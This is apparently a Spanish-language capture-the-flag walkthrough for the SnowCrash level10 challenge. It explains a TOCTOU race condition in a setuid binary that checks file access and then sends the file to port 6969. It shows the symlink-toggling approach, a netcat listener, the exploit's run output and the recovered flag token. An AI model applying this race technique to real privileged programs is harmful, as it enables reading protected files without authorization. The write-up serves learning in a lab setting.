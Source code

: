 1. **Busqueda de archivos**

    Entontramos otro binario `level10` que al ejecutarlo nos pide un `archivo`y `host`
    ```bash
    ./level10 file host
        sends file to host if you have access to it
    level10@SnowCrash:~$ ./level10 token localhost
    You don't have access to token
    ```
    Podemos ver por el strings que:
    - No es un demonio en escucha, sino un cliente TCP que hace
    socket()/connect() a puerto 6969 del host que le pasas.
    - Antes de abrir el fichero con open/read, hace un access() para
    comprobar permisos (“You don't have access to %s”).
    - Si access() pasa, luego se conecta y envía el contenido por la red.


2. **Explotación**

    Vamos a crear un script que haga lo siguiente:
    - Crear un toggle (bucle) que cambie rapidamente el destino de un enlace simbolico `/tmp/link` entre dos archivos diferentes
        - Uno es un archivo normal y legible `/tmp/ok`
        - El otro es el archivo protegido que queremos leer `~/token`
    El objetivo es que, durante la ejecucion del binario vulnerable `level10`, el enlace simbolico apunte al archivo protegido justo en el momento adecuado, explotando la vulnerabilidad de carrera `(TOCTOU)`

    ```bash
    level10@SnowCrash:~$ echo "OK" > /tmp/ok
    level10@SnowCrash:~$ chmod 644 /tmp/ok
    level10@SnowCrash:~$ chmod +x /tmp/exploit.sh
    level10@SnowCrash:~$ /tmp/exploit.sh
    You dont have access to /tmp/link
    Contenido: 
    /tmp/exploit.sh: line 14:  1809 Terminated              nc -l 6969 > /tmp/flag
    Connecting to 127.0.0.1:6969 .. Connected!
    Sending file .. wrote file!
    Contenido: woupa2yuojeeaaed06riuj63c
    ```

